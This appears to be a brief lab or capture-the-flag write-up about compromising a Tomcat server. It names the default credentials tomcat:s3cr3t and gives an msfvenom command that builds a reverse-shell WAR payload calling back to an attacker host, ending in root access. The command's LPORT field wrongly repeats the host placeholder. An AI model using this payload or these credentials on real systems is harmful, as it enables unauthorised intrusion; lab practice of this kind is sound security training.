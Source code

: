 > The machine has tomcat server that contains default credentials tomcat:s3cr3t, I created a war reverse shell payload using msfvenom that I copied from  [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)


## Msfvenom payload

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war`

>After that I got a shell that has root user privileges 
> 
>machine pwned!
